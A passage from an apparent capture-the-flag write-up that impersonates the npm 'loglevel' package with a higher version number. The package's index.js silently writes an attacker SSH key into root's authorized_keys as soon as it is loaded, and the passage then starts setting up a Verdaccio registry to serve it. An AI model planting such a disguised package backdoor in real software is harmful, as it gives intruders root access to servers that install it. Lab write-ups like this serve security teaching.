 ```
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}

Is this OK? (yes)

```

The only one I can’t take the default on is name, which I’ll name `loglevel`, as I want it to be included and called by the server on Seventeen, and I’ll up the version beyond what is current on the [real module](https://www.npmjs.com/package/loglevel), currently 1.8.0. The above process creates a `package.json` file in the current directory.

I used the default of `index.js`, so I’ll create that file right next to `package.json`:

```

const cp = require("child_process")

cp.exec("mkdir -p /root/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys");

function log(msg) {
    console.log(msg);
}

function debug(msg) {
    console.log(msg);
}

function warn(msg) {
    console.log(msg);
}

module.exports.log = log;

```

I don’t believe I need more than a one liner to do my malicious stuff, but I’ll implement the `log` functions that are expected in the node application.

#### Verdaccio Container

To get a server running on my host, I’ll use a [Verdaccio Docker container](https://verdaccio.org/docs/docker/). I’ll run `docker pull verdaccio/verdaccio` (either as root, with `sudo`, or with my user in the `docker` group) to get a copy of the container image.

I’ll run the container using the command from the instructions above, though some experimentation shows that I need to run it with the environment variable `VERDACCIO_PUBLIC_URL` pointing to my tun0 IP:
